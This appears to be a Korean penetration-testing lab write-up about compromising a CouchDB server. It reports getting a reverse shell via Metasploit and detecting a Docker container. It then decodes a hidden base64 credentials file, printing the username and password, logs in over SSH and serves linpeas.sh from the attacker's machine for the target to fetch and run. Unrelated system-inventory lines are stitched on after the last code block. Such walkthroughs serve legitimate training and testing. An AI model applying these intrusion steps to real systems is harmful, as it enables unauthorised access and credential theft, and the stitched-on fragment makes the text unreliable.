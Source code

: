   

- `msfconsol` 이용하여 couchdb 리버스 쉘을 획득한 뒤 정보 수집을 이어가던 중 `/.dockerenv` 파일을 보고 현재 데이터 베이스 서버가 도커에서 실행중인 것을 확인헀다.

- <img src="image-4.png" alt="도커증거" style="zoom: 50%;" />

  

- 도커 탈출을 위해 정보 수집을 진행하던 중, couchdb 홈디렉토리에 숨겨진 파일 `.creds` 파일 발견했다.

- <img src="image-5.png" alt="credfile" style="zoom:50%;" />

  
  
- 해당 파일 내용이 base64로 인코딩 되어있는 것 같아 점검자의 칼리에서 디코딩을 진행했다. -> `dmzdbadmin:dmzdbadmin` 계정 획득

  

```

┌──(kali㉿kali)-[~/exam]

└─$ vim base.txt

  

┌──(kali㉿kali)-[~/exam]

└─$ base64 -d base.txt

COUCHDB_USER=dmzdbadmin:COUCHDB_PASSWORD=dmzdbadmin

```

  

- 획득한 계정 정보로 SSH 이용하여 `dmzdbadmin` 유저로 로그인에 성공했다.

- <img src="image-6.png" alt="낮은 권한 획득" style="zoom: 67%;" />

  
  
  

---

  

### 권한 상승

  

- 권한 상승을 위한 정보 수집으로 점검자 칼리에서 자동화 정보 수집 툴인 `linpeas.sh`를 다운로드하여 웹서버를 열어서 타켓 호스트에서 다운로드 후 실행했다.

  

```

# 칼리에서 linpeas 다운로드

└─# wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

  

# 칼리에서 웹서버 실행

└─# python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

10.0.5.122 - - [12/Aug/2025 05:15:41] "GET /linpeas.sh HTTP/1.1" 200 -

---

```

[01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2500 Mhz
[01]: Amazon Elastic Network Adapter
[01]: 10.0.5.116
[02]: fe80::4c64:ec7d:fde5:903c